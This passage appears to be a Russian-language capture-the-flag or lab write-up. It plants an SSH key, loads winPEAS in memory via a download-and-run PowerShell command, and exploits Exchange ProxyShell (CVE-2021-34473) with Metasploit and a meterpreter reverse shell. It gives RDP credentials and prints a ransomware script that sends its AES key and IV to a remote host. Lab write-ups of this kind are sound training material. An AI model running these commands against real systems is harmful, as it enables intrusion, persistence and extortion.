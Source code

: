 
Залили туда свой ssh ключ, чтобы в будущем просто подключаться по ssh.


Далее запускаем winpeas:
```
powershell
$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe"
[Net.ServicePointManager]::SecurityProtocol = "tls12, tls11, tls"
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); 
[winPEAS.Program]::Main("log=./winpeas.log")
```

## ProxyShell

На ip 10.11.3.20 работает уязвимая к CVE-2021-34473 ProxyShell. Используем metasploit:
```
msf6 > use exploit/windows/http/exchange_proxyshell_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_proxyshell_rce) > set rhosts 10.11.3.20
rhosts => 10.11.3.20
msf6 exploit(windows/http/exchange_proxyshell_rce) > set lhost 10.11.5.12
lhost => 10.11.5.12
msf6 exploit(windows/http/exchange_proxyshell_rce) > set lport 13378
lport => 13378
msf6 exploit(windows/http/exchange_proxyshell_rce) > run

```

И получаем доступ к серверу Exchange


## Windows Decrypt


Подключаемся к машине 10.11.239.6 по следующим кредам 

```bash
rdesktop -u Администратор -p Maggie1  10.11.239.6
```

Сразу заметим на диске `C:\` странный файл `Ransom.ps1`, даже из названия очевидно что это малварь, но прежде стоит глянуть код.
 

```shell=
set-strictMode -version 2.0
function Ransom
{

Param(
    [Parameter(Position = 0)]
    [String]
    $IP='127.0.0.1'
    )

    $aesManaged=new-object "System.Security.Cryptography.AesManaged";
    $aesManaged.Mode=[System.Security.Cryptography.CipherMode]::CBC;
    $aesManaged.Padding=[System.Security.Cryptography.PaddingMode]::Zeros;
    $aesManaged.BlockSize=128;
    $aesManaged.KeySize=256;
    $aesManaged.GenerateKey();
    $IV =  [System.Convert]::ToBase64String($aesManaged.IV);
    $key = [System.Convert]::ToBase64String($aesManaged.Key);

    $URL="http://$IP/key=$Key&iv=$IV&pc=$env:computername";
    try { Invoke-WebRequest $URL } catch {
        $_.Exception.Response.StatusCode.Value__}
```